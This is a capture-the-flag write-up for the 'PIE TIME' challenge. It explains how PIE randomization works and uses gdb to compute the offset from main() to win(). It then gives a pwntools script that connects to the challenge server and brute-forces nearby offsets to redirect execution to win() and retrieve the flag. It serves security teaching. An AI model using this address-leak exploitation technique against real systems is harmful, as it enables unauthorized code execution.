




# PIE TIME

**Difficulty**: :fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star::fontawesome-regular-star::fontawesome-regular-star:<br/>

## Objective

!!! question "Description"
    Can you try to get the flag? Beware we have PIE!

## Hints

??? tip "Hint 1"
    Can you figure out what changed between the address you found locally and in the server output?

## Solution

When we start the instance for this challenge, we are given a copy of the [source code](./assets/vuln.c) and the [binary](./assets/vuln) as well as a `netcat` command to connect to the remote service. Based off the title and description of this challenge, we can assume PIE stands for **P**osition **I**ndependent **E**xecutable. This is a security mechanism that works by doing a few things:

    1.  Randomizes the base memory address of an executable each time it runs
    2.  Makes the program's code and data load at random memory locations
    3.  Works as part of ASLR (Address Space Layout Randomization)

PIE is a common security feature that is meant to make buffer overflow attacks and other memory corruption exploits significantly more difficult by making it more difficult to predict where vulnerable code will be located in memory.<br/>
<br/>
Let's open up our version of the source code. I'm using VS Code & VSCodium to review it. There are three main functions:
    -   `main()`- The entry point
    -   `win()`- A function that reads and prints the flag
    -   `segfault_handler()`- Handles segmentation faults

When executed, the program prints the address of the `main` function: `printf("Address of main: %p\n", &main);`<br/>
It then prompts the user to input a memory address in hexadecimal and attempts to jump to that address to execute any code found there.

```bash title="Local execution" linenums="1"
# make the program executable
chmod +x vuln

# execute the program
./vuln
```

caption ///
PIE means that each time the code is executed, `main` should be somewhere new.
///

Now the challenge is to figure out how to determine the address of the `win()` funtion on line 11:

```c title="win() function" linenums="11"
int win() {
  FILE *fptr;
  char c;
```

One way we can do this is to determine the offset between `main()` and `win()`. While PIE randomizes the absolute addresses each run, the relative distance between different functions remain the same. If we can determine the offset between `main()` and `win()` we are then able to calculate the location of `win()` when given the location of `main()`.<br/>
<br/>
Since the location of `main` is provided all we need to do is figure out the address of `win`. To do that I used `gdb`, a debugger that is typically available on Unix-like machines. From the command line enter `gdb ./vuln`<br/>


/// caption
Use the `print` function to show the location of `win` and `main`.
///

When I printed the location of `win`, I noticed the difference in what was provided and what was given for `main` by the program so I used `print` to get the location of `main` as well so that it would be easier to calculate the offset. <br/>
<br/>
To calculate the offset, subtract the value of `win` from `main`: `main` - `win` = `0x1284` - `0x11e6` = `0x9E` (158 bytes). This means that when the program provides the exact location of `main`, we should be able to subtract `0x9E` from the provided address to get the address of `win`, which can be inputed to get the flag.<br/>
<br/>
Exit `gdb` and run the executable again, subtract the `0x9E` from the value provided and input it to test. <br/>


/// caption
The  test works locally
///

The address of `main` is provided as `0x5640A5BB6284`. Subtracting `0x9E` results in `0x5640A5BB61E6`.

!!! info "Hexadecimal arithmetic"
    If you are not already familiar, hexadecimal arithmetic involves converting the hexidecimal number into decimal form, perfoming the mathmatical function, then converting back to hexadecimal. [CyberChef](https://cyberchef.org/) is a free online tool that can be used for easy conversion. For this problem:

    -   Convert `0x9E` to decimal:
        0x9E = 158
    -   Convert `0x5640A5BB6284` to decimal:
        0x5640A5BB6284 = 377441309948292
    -   subtract 377441309948292 - 158 = 377441309948134.
    -   Convert 377441309948134 to hexadecimal 
        377441309948134 = 0x5640A5BB61E6

It looks like it works, so lets use `netcat` to connect to the server and try the same thing.


/// caption
Hmm... That was supposed to work.
///

Well, that's disappointing. After spending some time trying to figure out how I messed up, I wrote a script using `pwntools` to test a small range around the offset I had found locally.<br/>

```python title="solve.py"
#!/usr/bin/env python3
from pwn import *
import re

context.log_level = 'info'

REMOTE = "rescued-float.picoctf.net"
PORT = <input provided port>

def try_offset(offset):
    conn = remote(REMOTE, PORT)
    try:
        line = conn.recvline().decode().strip()
        main_addr_match = re.search(r"Address of main: (0x[0-9a-fA-F]+)", line)
        if not main_addr_match:
            conn.close()
            return False
        main_addr = int(main_addr_match.group(1), 16)
        win_addr = main_addr - offset
        conn.sendline(hex(win_addr).encode())
        conn.recvline()
        try:
            result = conn.recvline().decode().strip()
            if "You won" in result:
                flag = conn.recvline().decode().strip()
                log.success(f"Offset {hex(offset)} worked. Flag: {flag}")
                conn.close()
                return True
            else:
                conn.close()
                return False
        except EOFError:
            log.warning(f"EOFError during recvline. Offset: {hex(offset)}")
            conn.close()
            return False

    except Exception as e:
        log.error(f"Error: {e}")
        conn.close()
        return False

def main():
    base_offset = 0x9E
    for i in range(-10, 11):
        offset = base_offset + i
        if try_offset(offset):
            return
    log.failure("Failed to find the correct offset.")

if __name__ == "__main__":
    main()
```

!!! success "Answer"
    Find the offset locally, then explore a small area of memory remotely to find the correct location of the `win()` function.